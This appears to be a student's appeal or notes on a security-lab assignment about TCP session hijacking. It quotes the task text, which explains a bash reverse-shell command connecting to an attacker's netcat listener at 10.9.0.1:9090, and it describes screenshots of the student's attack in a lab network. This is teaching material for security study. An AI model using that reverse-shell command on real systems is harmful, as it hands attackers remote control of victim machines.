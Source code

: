 ## Question

Q4 Task 4: Creating Reverse Shell using TCP Session Hijacking
30 Points
Grading comment:

When attackers are able to inject a command to the victim’s machine using TCP session hijacking, they are not interested in running one simple command on the victim machine; they are interested in running many commands. Obviously, running these commands all through TCP session hijacking is inconvenient. What attackers want to achieve is to use the attack to set up a back door, so they can use this back door to conveniently conduct further damages.

A typical way to set up back doors is to run a reverse shell from the victim machine to give the attack the shell access to the victim machine. Reverse shell is a shell process running on a remote machine, connecting back to the attacker’s machine. This gives an attacker a convenient way to access a remote machine once it has been compromised.

In the following, we will show how we can set up a reverse shell and how we can directly run a command on the victim machine (i.e. the server machine). In the TCP session hijacking attack, attackers cannot directly run a command on the victim machine, so their jobs is to run a reverse-shell command through the session hijacking attack. In this task, students need to demonstrate that they can achieve this goal. 

To have a bash shell on a remote machine and connect back to the attacker’s machine, the attacker needs a process waiting for some connection on a given port. In this example, we will use netcat. This program allows us to specify a port number and can listen for a connection on that port. In the following demo, we show two windows, each one is from a different machine. The top window is the attack machine 10.9.0.1, which runs netcat (nc for short), listening on port 9090. The bottom window is the victim machine 10.9.0.5, and we type the reverse shell command. As soon as the reverse shell gets executed, the top window indicates that we get a shell. This is a reverse shell, i.e., it runs on 10.9.0.5

We provide a brief description on the reverse shell command in the following.

    • "/bin/bash -i": i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt)

    "> /dev/tcp/10.9.0.1/9090": This causes the output (stdout) of the shell to be redirected
    to the tcp connection to 10.9.0.1’s port 9090. The output stdout is represented by file descriptor number 1.

    "0<&1": File descriptor 0 represents the standard input (stdin). This causes the stdin for the shell to be obtained from the tcp connection.
    "2>&1": File descriptor 2 represents standard error stderr. This causes the error output to be redirected to the tcp connection.

In summary, "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1" starts a bash shell,
with its input coming from a tcp connection, and its standard and error outputs being redirected to the same tcp connection. 

In the demo shown above, when the bash shell command is executed on 10.9.0.5, it connects back to the netcat process started on 10.9.0.1. This is confirmed via the "Connection received on 10.9.0.5" message displayed by netcat.

The description above shows how you can set up a reverse shell if you have the access to the target machine, which is the telnet server in our setup, but in this task, you do not have such an access. Your task is to launch a TCP session hijacking attack on an existing telnet session between a user and the target server. You need to inject your malicious command into the hijacked session, so you can get a reverse shell on the target server.

- Please show your code (hardcoded values)
- show the attack in progress
- Wireshark frame showing the SEQ/ACK number that you copied from
- Wireshark frame showing the inject code, and showing the SEQ and ACK number
- Telnet connection failing
- netcat output
- File created on the victim's host using netcat (or some other attack)

## Argument

The right panel of these screenshots displays the Python hijacking script.
The code screenshot I submitted:
![[Screenshot 2025-06-04 at 1.48.49 PM.png]]

From the same screenshot we can see what docker containers we have, namely:
![[Screenshot 2025-06-04 at 1.49.28 PM.png | 400]]

Even though it is hard to follow, the collective set of screenshots illustrates the stages of the attack.

Tis demonstrates the initial setup: 
![[Screenshot 2025-06-04 at 2.48.01 PM.png]]
where, the netcat listener (netcat -nlvp 9090) is started on the attacker machine (10.9.0.1) in the bottom-left terminal, and a Telnet session from seed@VM to 10.9.0.6 is active in the middle-left terminal.
![[Screenshot 2025-06-04 at 2.44.41 PM.png]]

Then we see the outcome of the hijack script:
![[Screenshot 2025-06-04 at 2.52.43 PM.png]]

And as we saw before, 51 is our victim.

